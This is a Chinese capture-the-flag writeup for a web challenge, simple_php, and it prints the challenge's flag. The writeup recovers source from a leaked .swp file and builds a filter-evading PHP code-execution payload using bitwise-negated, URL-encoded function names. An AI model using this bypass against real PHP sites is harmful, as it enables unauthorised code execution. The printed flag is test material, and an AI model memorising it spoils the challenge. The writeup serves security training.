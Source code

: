 - **题目名称：** simple_php
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** tutu
- **考点：** 

1.  源码泄露swp
2.  特殊字符webshell构造

- **描述：**  你这shell保熟吗？

- **flag：** flag{a3b5c6d-563ae31f-b6672e33ed-ff63a5b8}

- **Writeup：** 

  根据提示，访问index.php.swp得到源码，进行审计发现大部分webshell构造方式都被ban，因为eval()可以利用`('getflag')();`的方式来执行函数，所以可以将字符串取反后装成十六进制，添加上%构造 URL 编码的特殊字符串，再通过取反构造webshell：

  ```php
  <?php
  echo bin2hex(~'getflag'); //989a8b99939e98-->%98%9a%8b%99%93%9e%98
  //payload: index.php?code=(~%98%9a%8b%99%93%9e%98)();
  ```
